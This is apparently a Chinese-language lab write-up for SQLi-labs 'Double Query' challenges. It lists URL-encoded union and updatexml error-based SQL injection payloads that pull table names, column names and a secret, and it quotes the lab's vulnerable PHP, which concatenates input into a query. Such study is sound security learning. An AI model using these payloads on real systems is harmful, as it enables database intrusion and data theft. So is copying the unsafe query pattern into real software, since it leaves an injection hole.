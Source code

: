 - **GET - Challenge - Union - 14 Queries Allowed - Variation 4**</br>
	如上

- **GET - Challenge - Double Query -5 Queries Allowed - Variation 1**</br>
	1.猜测</br>
	?id=1%27%26%26%271=1 成功，可知为' '</br>
	?id=-1%27%20union%20select%201,(select%20table_name%20from%20information_schema.tables%20where%20table_schema%3d%27challenges%27),3%20%23 </br>  返回同上，可知有其它过滤规则</br>
	尝试报错注入</br>
	?id=-1%27%20union%20select%20updatexml(1,concat(0x7e,version(),0x7e),1)%23 成功返回version()</br>
	2.获取表名</br>
	?id=-1%27%20union%20select%201,updatexml(1,concat(0x7e,(select%20table_name%20from%20information_schema.tables%20where%20table_schema%3d%27challenges%27),0x7e),1),1%23</br>
	返回：XPATH syntax error: '~4HT916R6T1~'</br>
	3.获取列名</br>
	?id=-1%27%20union%20select%201,updatexml(1,concat(0x7e,(select%20group_concat(column_name%20,"---")%20from%20information_schema.columns%20where%20table_name%3d%20"4HT916R6T1"),0x7e),1),1%23</br>
	返回: XPATH syntax error: '~id---,sessid---,secret_EN0R---,'为什么有一个列没显示</br>
	4.获取密码</br>
	?id=-1%27%20union%20select%201,updatexml(1,concat(0x7e,(select%20secret_EN0R%20from%204HT916R6T1),0x7e),1),1%23</br>
	返回: XPATH syntax error: '~OcDGOovBkd3XMq3FpuSNtEIN~'</br>

- **GET - Challenge - Double Query -5 Queries Allowed - Variation 2**</br>
	?id=1%26%261=1 返回成功，说明无字符</br>
	剩余步骤如 less 58</br>

-  **GET - Challenge - Double Query -5 Queries Allowed - Variation 3**
	?id=1%22%26%26%221=1 猜测为 " "</br>
?id=1%22)%26%26(%221=1 猜测为(" ") </br>
都返回相同结果？？？？</br>
  但实际上
        	$id = '("'.$id.'")';
  			$sql="SELECT * FROM security.users WHERE id=$id LIMIT 0,1";
  	           if($row)
  				{
  					echo '<font color= "#00FFFF">';
  					$unames=array("Dumb","Angelina","Dummy","secure","stupid","superman","batman","admin","admin1","admin2","admin3","dhakkan","admin4");
  					$pass = array_reverse($unames);
  					echo 'Your Login name : '. $unames[$row['id']];
  					echo "<br>";
  					echo 'Your Password : ' .$pass[$row['id']];
  					echo "</font>";
  				}
  				else
  				{
  					echo '<font color= "#FFFF00">';
  					print_r(mysql_error());
  					echo "</font>";  
  				}
	每次返回都是$unames=array（），奸诈！！
